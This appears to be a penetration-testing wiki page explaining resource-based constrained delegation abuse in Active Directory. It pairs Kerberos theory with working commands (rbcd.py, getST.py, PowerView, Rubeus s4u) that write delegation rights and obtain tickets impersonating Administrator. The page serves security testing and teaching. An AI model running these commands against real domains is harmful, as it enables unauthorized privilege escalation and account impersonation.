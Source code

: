 # (RBCD) Resource-based constrained

## Theory

If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor of another object (e.g. the `GenericWrite` ACE, see [Abusing ACLs](../../access-control-entries/)), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.

{% hint style="success" %}
Machine accounts can edit their own `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor. Hence allowing RBCD attacks on relayed machine accounts authentications.
{% endhint %}

For this attack to work, the attacker needs to populate the target attribute with an account having a `ServicePrincipalName` set (needed for Kerberos delegation operations). The usual way to conduct these attacks is to create a computer account, which comes with an SPN set. This is usually possible thanks to a domain-level attribute called [`MachineAccountQuota`](../../domain-settings/machineaccountquota.md) that allows regular users to create up to 10 computer accounts. While this "computer account creation + RBCD attack" is the most common exploitation path, doing so with a user account (having at least one SPN) is perfectly feasible.

Then, in order to abuse this, the attacker has to control the account the object's attribute has been populated with (i.e. the account that has an SPN). Using that account's credentials, the attacker can obtain a ticket through `S4U2Self` and `S4U2Proxy` requests, just like constrained delegation with protocol transition.

In the end, an RBCD abuse results in a Service Ticket to authenticate on a target service on behalf of a user. Once the final Service Ticket is obtained, it can be used with [Pass-the-Ticket](../ptt.md) to access the target service. 

{% hint style="success" %}
On a side note, a technique called [AnySPN or "service class modification"](../ptt.md#modifying-the-spn) can be used concurrently with pass-the-ticket to change the service class the Service Ticket was destined to (e.g. for the `cifs/target.domain.local` SPN, the service class is `cifs`).
{% endhint %}

![](../../../../.gitbook/assets/Kerberos_delegations-rbcd.drawio.png)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
**1 - Edit the target's security descriptor (ACE abuse) **:pencil2:** **

The [rbcd.py](https://github.com/ShutdownRepo/impacket/blob/rbcd/examples/rbcd.py) script (Python) _(_[_Pull Request pending_](https://github.com/SecureAuthCorp/impacket/pull/1108)_ at the time of writing - 29th Sept. 2021)_ can be used to read, write or clear the delegation rights, using the credentials of a domain user that has the needed permissions.

```bash
# Read the security descriptor
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action read 'DOMAIN'/'POWERFULUSER':'PASSWORD'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity SD
rbcd.py -delegate-from 'accountwithSPN' -delegate-to 'target$' -dc-ip 'DomainController' -action write 'DOMAIN'/'POWERFULUSER':'PASSWORD'
```

{% hint style="success" %}
Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to set the delegation rights with the `--delegate-access` option when conducting this attack from a [relayed authentication](../../ntlm/relay.md).
{% endhint %}

**2 - Obtain a ticket (delegation operation) **:ticket:** **

Once the security descriptor has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python) can then perform all the necessary steps to obtain the final "impersonating" ST (in this case, "Administrator" is impersonated but it can be any user in the environment).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

{% hint style="warning" %}
In [some cases](./#theory), the delegation will not work. Depending on the context, the [bronze bit ](../forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability (CVE-2020-17049) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}

{% hint style="info" %}
The SPN (Service Principal Name) set can have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page_id=183)). There however scenarios where the SPN can be changed ([AnySPN](../ptt.md#modifying-the-spn)) to access more service. This technique is automatically tried by Impacket scripts when doing pass-the-ticket.
{% endhint %}

**3 - Pass-the-ticket **:passport_control:** **

Once the ticket is obtained, it can be used with [pass-the-ticket](../ptt.md).
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../../credentials/impersonation.md) part.

**1 - Edit the target's security descriptor (ACE abuse)**:pencil2:** **

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object (in this case, to modify the delegation rights).

```bash
# Read the security descriptor
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount

# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'accountwithSPN'
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute ([source](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html?highlight=genericall#id31)).

```bash
# Obtain the SID of the controlled computer account
$ComputerSid = Get-DomainComputer 'PENTEST01' -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**2 - Obtain a ticket (delegation operation) **:ticket:** **

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the TGT and "impersonation ST" and inject it for later use.

```bash
# Request the TGT
Rubeus.exe tgtdeleg

# Request the "impersonation" service ticket
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Rubeus.exe hash /password:$password
```

**3 - Pass-the-ticket **:passport_control:** **

Once the ticket is injected, it can natively be used when accessing the service (see [pass-the-ticket](../ptt.md)).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/" %}

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/" %}
